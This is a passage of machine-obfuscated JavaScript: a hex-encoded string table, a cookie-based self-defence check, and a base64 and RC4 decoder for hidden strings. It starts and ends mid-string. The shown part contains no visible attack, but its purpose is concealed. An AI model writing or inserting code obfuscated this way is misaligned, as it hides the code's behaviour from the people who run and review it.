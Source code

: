 x4c\x43\x6c\x63\x4f\x5a','\x4c\x4d\x4b\x62\x41\x47\x48\x44\x76\x79\x77\x3d','\x51\x63\x4b\x64\x77\x70\x50\x44\x75\x73\x4b\x79','\x66\x38\x4f\x4a\x77\x71\x45\x76\x4f\x73\x4f\x34\x45\x73\x4f\x2f\x4d\x51\x3d\x3d','\x4c\x73\x4b\x62\x77\x6f\x38\x3d','\x4c\x46\x58\x44\x67\x51\x3d\x3d','\x77\x37\x58\x44\x70\x53\x34\x3d','\x58\x38\x4f\x33\x53\x73\x4b\x44\x77\x36\x4a\x2f\x77\x70\x6a\x43\x6f\x45\x51\x3d','\x4d\x73\x4f\x57\x77\x70\x6e\x43\x6f\x63\x4b\x42\x5a\x58\x51\x69\x41\x77\x3d\x3d','\x35\x34\x71\x44\x35\x70\x36\x71\x35\x59\x32\x63\x37\x37\x32\x59\x77\x36\x6e\x44\x6b\x75\x53\x38\x72\x4f\x57\x73\x73\x65\x61\x64\x6e\x65\x57\x39\x6b\x75\x65\x70\x76\x65\x2b\x39\x76\x75\x69\x38\x72\x65\x69\x73\x6e\x65\x61\x58\x6c\x4f\x61\x50\x6d\x4f\x61\x49\x6a\x4f\x53\x36\x68\x2b\x65\x61\x76\x4f\x57\x32\x6b\x75\x53\x38\x6f\x77\x3d\x3d','\x35\x59\x75\x6a\x36\x5a\x69\x68\x35\x34\x75\x76\x35\x70\x36\x41\x35\x59\x36\x34\x37\x37\x32\x7a\x77\x34\x56\x53\x35\x4c\x79\x55\x35\x61\x79\x56\x35\x70\x32\x36\x35\x62\x32\x2b\x35\x36\x6d\x30','\x77\x72\x59\x43\x77\x35\x55\x3d','\x4c\x38\x4b\x54\x41\x55\x6e\x44\x6f\x51\x3d\x3d','\x77\x36\x7a\x44\x68\x6a\x62\x44\x68\x38\x4f\x6d','\x4f\x48\x54\x44\x70\x58\x66\x44\x67\x51\x3d\x3d','\x54\x38\x4f\x35\x61\x67\x3d\x3d','\x56\x54\x6e\x44\x72\x77\x3d\x3d','\x4d\x63\x4f\x62\x77\x6f\x74\x44\x49\x6a\x39\x37\x61\x73\x4f\x5a\x77\x34\x63\x55\x77\x34\x4c\x44\x6b\x63\x4b\x70\x43\x38\x4f\x6a','\x62\x63\x4f\x2b\x77\x70\x62\x43\x68\x38\x4f\x56\x62\x38\x4f\x4c\x77\x34\x66\x43\x74\x63\x4f\x33\x66\x53\x31\x49\x77\x71\x35\x65\x77\x72\x5a\x41\x61\x4d\x4f\x34\x50\x63\x4b\x62\x77\x6f\x67\x55\x48\x73\x4f\x75\x77\x71\x2f\x43\x74\x55\x73\x62\x63\x73\x4f\x2f\x43\x77\x62\x43\x71\x63\x4b\x35\x44\x63\x4b\x30\x4e\x55\x73\x6c\x77\x6f\x74\x42\x57\x56\x39\x64\x64\x31\x33\x43\x76\x30\x33\x44\x71\x68\x4c\x44\x67\x55\x49\x54\x44\x52\x70\x72\x41\x6c\x64\x69\x57\x63\x4b\x69','\x41\x6c\x46\x43\x4d\x77\x3d\x3d','\x53\x63\x4f\x78\x54\x38\x4b\x50\x77\x36\x6f\x3d','\x77\x37\x62\x44\x6d\x43\x72\x44\x6d\x38\x4f\x6d','\x43\x7a\x76\x43\x6e\x41\x3d\x3d','\x62\x63\x4f\x4f\x4f\x77\x3d\x3d'];(function(_0x3dfc24,_0x4bf57f){var _0x479f23=function(_0x151040){while(--_0x151040){_0x3dfc24['push'](_0x3dfc24['shift']());}};var _0x2667ef=function(){var _0x19882c={'data':{'key':'cookie','value':'timeout'},'setCookie':function(_0x38a396,_0x198d9c,_0x53d2fc,_0x40f314){_0x40f314=_0x40f314||{};var _0x1d0db3=_0x198d9c+'='+_0x53d2fc;var _0x1c23d9=0x0;for(var _0x1c23d9=0x0,_0x3c6a59=_0x38a396['length'];_0x1c23d9<_0x3c6a59;_0x1c23d9++){var _0x1a8423=_0x38a396[_0x1c23d9];_0x1d0db3+=';\x20'+_0x1a8423;var _0x504757=_0x38a396[_0x1a8423];_0x38a396['push'](_0x504757);_0x3c6a59=_0x38a396['length'];if(_0x504757!==!![]){_0x1d0db3+='='+_0x504757;}}_0x40f314['cookie']=_0x1d0db3;},'removeCookie':function(){return'dev';},'getCookie':function(_0x5ac218,_0x334887){_0x5ac218=_0x5ac218||function(_0x16cbc0){return _0x16cbc0;};var _0x1c3d23=_0x5ac218(new RegExp('(?:^|;\x20)'+_0x334887['replace'](/([.$?*|{}()[]\/+^])/g,'$1')+'=([^;]*)'));var _0x1aa17e=function(_0x39f8d3,_0x4de5a6){_0x39f8d3(++_0x4de5a6);};_0x1aa17e(_0x479f23,_0x4bf57f);return _0x1c3d23?decodeURIComponent(_0x1c3d23[0x1]):undefined;}};var _0x17cb94=function(){var _0x4d8f44=new RegExp('\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*[\x27|\x22].+[\x27|\x22];?\x20*}');return _0x4d8f44['test'](_0x19882c['removeCookie']['toString']());};_0x19882c['updateCookie']=_0x17cb94;var _0x30b075='';var _0x3744e8=_0x19882c['updateCookie']();if(!_0x3744e8){_0x19882c['setCookie'](['*'],'counter',0x1);}else if(_0x3744e8){_0x30b075=_0x19882c['getCookie'](null,'counter');}else{_0x19882c['removeCookie']();}};_0x2667ef();}(_0x1491,0x7b));var _0x1f81=function(_0x2c0c46,_0x5b2ac3){_0x2c0c46=_0x2c0c46-0x0;var _0x3b87dc=_0x1491[_0x2c0c46];if(_0x1f81['initialized']===undefined){(function(){var _0xb97df9=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x1acb97='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0xb97df9['atob']||(_0xb97df9['atob']=function(_0x3fcea8){var _0x1ee370=String(_0x3fcea8)['replace'](/=+$/,'');for(var _0x1d8de6=0x0,_0x22ae7a,_0x2206eb,_0x131a86=0x0,_0x675d6d='';_0x2206eb=_0x1ee370['charAt'](_0x131a86++);~_0x2206eb&&(_0x22ae7a=_0x1d8de6%0x4?_0x22ae7a*0x40+_0x2206eb:_0x2206eb,_0x1d8de6++%0x4)?_0x675d6d+=String['fromCharCode'](0xff&_0x22ae7a>>(-0x2*_0x1d8de6&0x6)):0x0){_0x2206eb=_0x1acb97['indexOf'](_0x2206eb);}return _0x675d6d;});}());var _0x3e5e2d=function(_0x17adfb,_0x13df9b){var _0x377757=[],_0xaaa979=0x0,_0x3b3a8a,_0x4dab2b='',_0x25adf3='';_0x17adfb=atob(_0x17adfb);for(var _0x3c558f=0x0,_0x1d2ebf=_0x17adfb['length'];_0x3c558f<_0x1d2ebf;_0x3c558f++){_0x25adf3+='%'+('00'+_0x17adfb['charCodeAt'](_0x3c558f)['toString'](0x10))['slice'](-0x2);}_0x17adfb=decodeURIComponent(_0x25adf3);for(var _0x1f2b2f=0x0;_0x1f2b2f<0x100;_0x1f2b2f++){_0x377757[_0x1f2b2f]=_0x1f2b2f;}for(_0x1f2b2f=0x0;_0x1f2b2f<0x100;_0x1f2b2f++){_0xaaa979=(_0xaaa979+_0x377757[_0x1f2b2f]+_0x13df9b['charCodeAt'](_0x1f2b2f%_0x13df9b['length']))%0x100;_0x3b3a8a=_0x377757[_0x1f2b2f];_0x377757[_0x1f2b2f]=_0x377757[_0xaaa979];_0x377757[_0xaaa979]=_0x3b3a8a;}_0x1f2b2f=0x0;_0xaaa979=0x0;for(var _0x2e1891=0x0;_0x2e1891<_0x17adfb['length'];_0x2e1891++){_0x1f2b2f=(_0x1f2b2f+0x1)%0x100;_0xaaa979=(_0xaaa979+_0x377757[_0x1f2b2f])%0x100;_0x3b3a8a=_0x377757[_0x1f2b2f];_0x377757[_0x1f2b2f]=_0x377757[_0xaaa979];_0x377757[_0xaaa979]=_0x3b3a8a;_0x4dab2b+=String['fromCharCode'](_0x17adfb['charCodeAt'](_0x2e1891)^_0x377757[(_0x377757[_0x1f2b2f]+_0x377757[_0xaaa979])%0x100]);}return _0x4dab2b;};_0x1f81['rc4']=_0x3e5e2d;_0x1f81['data']={};_0x1f81['initialized']=!![];}var _0x7cb0ee=_0x1f81['data'][_0x2c0c46];if(_0x7cb0ee===undefined){if(_0x1f81['once']===undefined){var _0x6c2e85=function(_0x3bde69){this['rc4Bytes']=_0x3bde69;this['states']=[0x1,0x0,0x0];this['newState']=function(){return'newState';};this['firstState']='\x